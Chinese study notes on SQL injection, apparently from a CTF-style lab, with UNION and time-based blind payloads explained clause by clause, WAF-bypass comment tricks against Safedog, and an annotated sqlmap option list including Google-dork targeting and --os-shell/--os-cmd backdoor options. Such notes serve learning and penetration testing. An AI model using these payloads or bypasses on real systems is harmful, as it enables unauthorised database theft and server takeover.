
联合注入
继续上面的步骤
payload为
id=-5409' UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7171,0x6e4f6c51756c414255704d66767a6e6361737062516b617977624e4b6f734b61567a674a74446265,0x716b626a71)-- -这个语句十分简单，就是判断数据库有几列的。没什么可说的
接下查询一下表
-6736' UNION ALL SELECT NULL,NULL,(SELECT CONCAT(0x716a6a7171,IFNULL(CAST(table_schema AS NCHAR),0x20),0x666d62757070,IFNULL(CAST(table_name AS NCHAR),0x20),0x716b626a71) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x637466747261696e696e67,0x696e666f726d6174696f6e5f736368656d61,0x6d7973716c,0x706572666f726d616e63655f736368656d61,0x7365637572697479,0x74657374) LIMIT 44,1)-- -接下继续分析
SELECT NULL
,
NULL,( -- 7information_schema7INNODB_TEMP_TABLE_INFO7
SELECT
CONCAT( 0x37,
IFNULL( CAST( table_schema AS NCHAR ), 0x20 ),
0x37,
IFNULL( CAST( table_name AS NCHAR ), 0x20 ),
0x37 )
FROM
INFORMATION_SCHEMA.TABLES
WHERE
table_schema IN ( 0x637466747261696e696e67, 0x696e666f726d6174696f6e5f736368656d61, 0x6d7973716c, 0x706572666f726d616e63655f736368656d61, 0x7365637572697479, 0x74657374 )
LIMIT 44,
1
) -- -这个语句总体来并没有我们不会的点，它的函数我们在上面报错查询的时候已经解释了。那么这个语句是如何工作的呢？很简单，其实就是通过table_schema以及table_name from information.schema.tables中得到的表的相关信息。至于这个库我们在上面也已经说过了。很简单对吧。
盲注
时间盲注
获得注入点
id=1' AND (SELECT 9312 FROM (SELECT(SLEEP(5)))fwfI)-- JUHW核心函数就是sleep(5)
获得有哪些数据库怎么看呢?payload如下
1 AND (SELECT 6762 FROM (SELECT(SLEEP(1-(IF(ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 5,1),5,1))>1,0,1)))))cjhE)-- DmLI分解
1
AND (
SELECT
6762
FROM
(
SELECT
(
SLEEP(
1- (
IF
(
ORD(
-- 如果最左边的字符不是一个多字节字符，ORD()返回的值和ASCII()函数返回的值相同。
MID(
(
SELECT DISTINCT (
IFNULL(
CAST( schema_name AS NCHAR ), 0x20
)
)
FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 5, 1 )
, 5, 1 )
)> 1, -- 通过大于判断来获得所取字符串的ascii码
0, -- 大于1则取0，否则取1
1
))))) cjhE -- “1 - 语句” 的意思便为只要所取的子字符串符合判断便不sleep
-- 由此获得所包含的数据库
) -- DmLI通过上面的分析，我们便可以知道时间盲注的原理。
布尔盲注
不再赘述，如果想研究，可以自己使用sqlmap来进行测试。
其他注入
堆叠注入。
其实就是多条语句进行执行，没什么特别的。
正则表达式
可以使用以下网站进行正则表达式的匹配。
https://regex101.com/
Bypass
// 使用x64Debug对安全狗进行逆向分析。
安全狗
and 绕过
Select * from user where id =1 /*%/"!*/ and/*%/"!*/ 1=1union 绕过
Select * from user /*%/"!*/UNION/*%/"!*/ /*%/"!*/SELECT /*%/"!*/1,2,3Sleep
可以通过增加空格SQLMAP
目标选择
-u URL
-c CONFIG
读取记录-x SITEMAPURL
从xml文件中解析目标-m BULKFILE
大文件读取-r REQUEST
加载HTTP请求报文-g GOOGLEDORK
通过谷歌搜索得到的url作为目标
inurl:php?id=1
sqlmap.py -g "inurl:\".php?id=1\""–wizard
引导操作请求方式
–method=METHOD
POST
GET
HEAD
PUT
DELETE
CONNECT
OPINIONS
TRACE
PARCH–data=DATA
指定POST参数–param-del=PARA.. Character used for splitting parameter values
譬如将data中参数进行拆分–cookie=COOKIE
指定cookie的值–cookie-del=COO
分割cookie值的字符–load-cookies
从文件中读取cookie的值，格式为Netscape/wget–drop-set-cookie
丢弃响应头中set-cookie–user-agent HTTP User-Agent
设置user-agent–random-agent Use radomly selected HTTP User-Agent header value
随机选用sqlmap目录中User-Agent–host=HOST
选择HOST–referer=REFERER
修改referer值-H HEADER –hea
指定任何一个头部
-H "host=127.0.0.1\n xxx:nnn"–auth-type=AUTH ..
指定http认证类型–auth-file=AUTH
制定一个私钥文件来认证–ignore-401
忽略401错误–proxy=PROXY
添加代理–proxy-cred=PRO
代理认证方式
譬如:用户名密码。–proxy-file=
–ignore-proxy
–tor=TOR
–tor-port=TOR-PORT
–check-tor Check to see if TOr is used properly
–delay=DELAY
设置每个HTTP请求延迟–timeout=TIMEOUT
设置超时时间,默认30s–retires=RETIRES
设置重试次数，默认3–randomize=RPARAM
随机地更改给定参数的值 sqlmap -u xxx.com?id=1 -- randommize=id–safe-url=SAFEURL
有些Web应用程序会在你多次错误访问的请求后，会屏蔽你所有的请求，这里提供一个安全不错误的连接，每隔一段时间请求–safe-post=SAFEP
设置一个正确的POST数据–safe=freq=SAFER
设置访问安全url时间的时间间隔.–safe-req=SAFER
从文件中读取安全,或者说正确http请求。–skip-urlencode
不进行url编码force-ssl
强迫使用SSL–hpp
参数污染 ?id=cmd&id=aaa-eval=EVAL
执行一些代码SQLMAP优化注入
-o
开启所有优化–keep-alive
与--proxy不兼容–null-connection
直接获得回复的body的大小，而不用获得内容。–tread
多线程Injection
-p TESTPARAMETER
设定测试的参数。
sqlmap默认测试所有的GET与POST参数，当--level的值大于等于2时也会测试HTTP的cookie值，大于等于三时也会测试USER-Agent和HTTP的Referer头–skip=SKIP
跳过一些参数–skip-static
跳过一些静态的数据类型–dbms=DBMS
指定数据库类型–os=OS
指定一些操作系统–dbms-cred=DBMS
获得数据库认证信息(user:password)–invalid-bignum
注入参数形式–no-escape
将字符串变为char(ascii)–prefix, –suffix
选择参数',')之类的闭合方式-tamper
探测注入
–level=LEVEL
探测的级别–risk=RISK
探测的级别–string=STRINg
设置返回页面中的字符，页面返回这个字符，说明我们的注入判断语句是正确的。–not-string=STRINg
设置返回页面中的字符，页面没有返回这个字符，说明我们的注入判断语句是错误的。–regexp=REGEXP
用正则告诉sqlmap返回什么是正确的–code=CODE
用http响应码来判断注入语句是正确的,列如相应200时为真,相应401时为加。–text-only
判断返回页面是否相同–titles
真条件下的返回页面的标题与假条件下返回页面呃标题注入技术
–time-sec=TIMESEC
基于时间盲注时,设置数据库延迟(默认5s)–union-clos=UCOLS
设置联合查询列的数目的范围 10-20–union-char=
设置union查询使用的字符,默认为NULL
Union select NULL,NULL,name from....–union-from
设置union查询的库–dns-domain
DNS攻击–second-order
二次注入-f ,–fingerprint
指纹枚举注入
首先获得数据库的各种信息已经在上面说过了，这里不再赘述。
–dump
可以用来获得指定数据库,表,列的内容–start, –stop
指定从第几行输出-x
指定不枚举列–first,–last
用在盲注，指定想看的字符。例如：
--first=1 --last=3 获得前三个字符。
pass 变为 pas–sql-query=””
指定一个sql语句执行–sql-shell
在运行过程中选择sql语句执行。-sql-file
爆破
–common-tables(columns)
使用爆破来获得表与列。shell攻击
–os-cmd=
执行shell命令
原理：创造一个php文件里面包含后门代码–os-shell
执行后,可以再选择shell–os-pwn
获得权限–msf-path=”指定目录”
指定文件创造的目录SQLSever
1.语法与MySQL不同
1. select * from student;(相同)
2. 没有show databases;